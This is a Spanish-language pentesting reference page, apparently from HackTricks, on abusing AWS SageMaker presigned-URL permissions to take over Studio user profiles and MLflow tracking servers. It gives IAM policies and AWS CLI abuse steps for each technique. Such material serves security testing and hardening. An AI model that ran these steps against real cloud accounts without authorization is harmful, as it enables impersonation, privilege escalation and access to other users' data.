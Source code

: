 # AWS - SageMaker Acceso no autorizado

{{#include ../../../../banners/hacktricks-training.md}}

## SageMaker Studio - Secuestro de cuenta via CreatePresignedDomainUrl (Suplantar cualquier UserProfile)

### Descripción
Una identidad con permiso para invocar `sagemaker:CreatePresignedDomainUrl` sobre un `UserProfile` objetivo de Studio puede generar una URL de acceso que autentica directamente en SageMaker Studio como ese perfil. Esto proporciona al navegador del atacante una sesión de Studio que hereda los permisos del `ExecutionRole` del perfil y acceso completo al home respaldado por EFS y a las apps del perfil. No se requiere `iam:PassRole` ni acceso a la consola.

### Requisitos
- Un SageMaker Studio `Domain` y un `UserProfile` objetivo dentro del mismo.
- El principal atacante necesita `sagemaker:CreatePresignedDomainUrl` sobre el `UserProfile` objetivo (a nivel de recurso) o `*`.

Ejemplo mínimo de policy (limitado a un UserProfile):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedDomainUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
}
]
}
```
### Pasos de abuso

1) Enumera un Studio Domain y UserProfiles a los que puedas apuntar
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```
2) Generar una presigned URL (válida ~5 minutos por defecto)
```bash
aws sagemaker create-presigned-domain-url \
--domain-id $DOM \
--user-profile-name $TARGET_USER \
--query AuthorizedUrl --output text
```
3) Abra la URL devuelta en un navegador para iniciar sesión en Studio como el usuario objetivo. En un terminal de Jupyter dentro de Studio, verifique la identidad efectiva:
```bash
aws sts get-caller-identity
```
Notas:
- `--landing-uri` puede omitirse. Algunos valores (p. ej., `app:JupyterLab:/lab`) pueden ser rechazados según la variante/versión de Studio; los valores por defecto normalmente redirigen a la página principal de Studio y luego a Jupyter.
- Las políticas de la organización/restricciones de endpoints VPC aún pueden bloquear el acceso a la red; la emisión del token no requiere inicio de sesión en la consola ni `iam:PassRole`.

### Impacto
- Movimiento lateral y escalada de privilegios al asumir cualquier Studio `UserProfile` cuyo ARN esté permitido, heredando su `ExecutionRole` y sistema de archivos/aplicaciones.

### Evidencia (de una prueba controlada)
- Con solo `sagemaker:CreatePresignedDomainUrl` en un `UserProfile` objetivo, el rol atacante devolvió con éxito un `AuthorizedUrl` como:
```
https://studio-d-xxxxxxxxxxxx.studio.<region>.sagemaker.aws/auth?token=eyJhbGciOi...
```
- Una solicitud HTTP directa responde con una redirección (HTTP 302) a Studio, confirmando que la URL es válida y está activa hasta su expiración.


## SageMaker MLflow Tracking Server - ATO via CreatePresignedMlflowTrackingServerUrl

### Descripción
Una identidad con permiso para llamar a `sagemaker:CreatePresignedMlflowTrackingServerUrl` para un SageMaker MLflow Tracking Server objetivo puede generar una URL prefirmada de un solo uso que autentica directamente en la interfaz de usuario gestionada de MLflow para ese servidor. Esto concede el mismo acceso que tendría un usuario legítimo al servidor (ver/crear experimentos y ejecuciones, y descargar/subir artefactos en el almacén de artefactos S3 del servidor) sin acceso a la consola ni `iam:PassRole`.

### Requisitos
- Un SageMaker MLflow Tracking Server en la cuenta/región y su nombre.
- El principal atacante necesita `sagemaker:CreatePresignedMlflowTrackingServerUrl` en el recurso MLflow Tracking Server objetivo (o `*`).

Ejemplo de política mínima (limitada a un Tracking Server):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedMlflowTrackingServerUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:mlflow-tracking-server/<tracking-server-name>"
}
]
}
```
### Pasos de abuso

1) Enumera MLflow Tracking Servers a los que puedas apuntar y elige uno
```bash
aws sagemaker list-mlflow-tracking-servers \
--query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```
2) Generar una URL presignada de MLflow UI (válida por poco tiempo)
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
--tracking-server-name "$TS_NAME" \
--expires-in-seconds 300 \
--session-expiration-duration-in-seconds 1800 \
--query AuthorizedUrl --output text
```
3) Abra la URL devuelta en un navegador para acceder al MLflow UI como usuario autenticado para ese Tracking Server.

Notas:
- El Tracking Server debe estar en un estado listo (p. ej., `Created/Active`). Si aún está `Creating`, la llamada será rechazada.
- La URL prefirmada es de un solo uso y de corta duración; genere una nueva cuando sea necesario.

### Impacto
- Acceso directo al MLflow UI administrado para el Tracking Server objetivo, permitiendo ver y modificar experiments/runs y la recuperación o carga de artifacts almacenados en el S3 artifact store configurado del servidor, dentro de los permisos impuestos por la configuración del servidor.

{{#include ../../../../banners/hacktricks-training.md}}
